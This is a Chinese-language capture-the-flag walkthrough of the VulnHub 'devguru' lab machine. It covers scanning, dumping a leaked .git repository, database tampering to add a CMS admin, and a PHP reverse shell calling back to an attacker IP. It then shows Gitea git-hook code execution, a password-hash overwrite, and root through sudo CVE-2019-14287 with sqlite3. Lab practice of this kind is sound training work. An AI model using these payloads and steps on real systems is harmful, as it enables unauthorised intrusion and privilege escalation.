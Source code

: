 ```yaml
---
title: 靶场实战：devguru
date: 2025-5-3 23:29:53
tags: 
	-  linux提权
	-  web渗透
	-  vulnhub靶场
category: 靶场实战
renderNumberedHeading: true
slug:  storywriter/tutorial
emoji: 🎇
color: 'var(--base0A)'
cover: '![](./img/use_cover.jpg)'
theme: xsj-fall
---
```


靶场实战：devguru

靶机地址[devguru](https://www.vulnhub.com/entry/devguru-1,620/)

#### 信息收集

常规扫描

`sudo nmap 192.168.1.0/24 -sn`靶机发现192.168.1.138

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278830305.png)

`sudo nmap $ip -p- --min-rate=10000`端口扫描22,80,8585

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278873458.png)

`sudo nmap $ip -p$ports -sT -sC -sV -O -oA devguru/detail`细节扫描，tcp协议扫描对应端口，-sC使用默认脚本，-SV扫描版本信息，-O确定操作系统，-oA格式化输出

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278893053.png)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278903236.png)

80端口存在git泄露，8585端口运行了gitea

`sudo nmap -sU --top-ports 20 $ip -oA devguru/udp`扫描udp的常见端口，有时可以多指定一些端口

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278926588.png)

目录扫描，有时一个工具没有收获可以多试试几个工具（如dirb，dirsearch，gobuster等）

80端口目录

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278960600.png)

8585端口的目录

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278981133.png)

#### 开始渗透

80端口存在git泄露，使用githack工具下载下来

`sudo python GitHack.py http://192.168.1.138`

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279056940.png)

重点查看配置相关文件

config下的database.php发现数据库信息

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279073567.png)

访问80端口的adminer.php发现是数据库管理

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279098699.png)

使用刚刚获取的信息登录

优先关注users等信息，只找到一个backend_users的表，此时有两个思路，1修改原来管理员的密码，危险程度较高，容易被发现，2是新建一个用户，危险程度较低，这里选择新建用户
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279119471.png)

最后is_superuser要设置为1，在用户组将我们新建的用户归类到管理员组

同时根据数据库加上80端口扫描的目录backend,访问并登录

登录之后在cms -add - code输入反弹shell的指令

```
function onStart(){
//nc监听7777端口
    $s   =fsockopen("192.168.1.114",5555);
    $proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);
}
```

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279130337.png)

同时开启本地监听`nc -lvvp 5555`

访问/home1（新建网页名称）执行代码获取shell

成功拿到shell
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279147662.png)

#### 权限提升

##### 获取高交互shell

使用`python3 -c 'import pty;pty.spawn("/bin/bash")'`获得交互更好的shell（使用什么版本的python主要看环境有什么版本）

读取/etc/passwd文件发现只有root和frank用户有/bin/bash即允许ssh且有高交互shell

1

尝试读取shadow文件权限不允许，通常shadow文件都是只有root用户有权限的，但是也不一定，如果可以读取就可以利用该文件进行hash碰撞

使用python启动一个快速http服务共享文件`python -m http.server`

使用wget下载linpeas.sh和LinEnum.sh

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279178588.png)

提升权限并运行脚本

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279195376.png)

suid不存在提权，看看sudo，需要密码，无法获得

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279207508.png)

查看备份文件
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279217041.png)

##### 获取普通用户

发现新的服务器连接
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279262092.png)

同样查看user，因为我们已经获取了web的权限，因此这里我们想要获取frank用户的权限，所以这里的选择是更改frank的密码
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279271344.png)

原来的gitea的加密方式是pbkdf2且有salt，我们选择换一个加密方式，bcrypt，使用网站实现（我这里尝试了几种方式，只有bcrypt可行，有的博客使用了原加密方式，但没说清楚salt值的获取）[在线Bcrypt密码生成工具-Bejson.com](https://www.bejson.com/encrypt/bcrpyt_encode/#google_vignette)

`$2a$10$sV1DF9po/5T1BE2dsy2OueGZ/VuPrUrwDR6aA88Ygu2gv6GPeGtzO`

结合目录扫描的结构gitea在8585端口
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279287060.png)

左下角显示gitea的版本是1.12.5

该版本存在以下漏洞

setting -> git hook输入命令

然后编辑 readme.md 随便编辑即可执行
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279380648.png)

成功拿到
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279429126.png)

存在sqlite3无需密码使用
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279453993.png)

#### sqlite3配合sudo漏洞提权

发现特权命令/usr/bin/sqlite3使用网站查找[GTFOBins](https://gtfobins.github.io/)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279463974.png)

复制，执行，发现

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279479812.png)
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279489723.png)

sudo的版本是1.8.21，存在一个[CVE-2019-14287：sudo权限绕过漏洞分析与复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/217089.html)的漏洞

这里可以使用该漏洞配合sqlite3提权

`sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'`
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279496031.png)
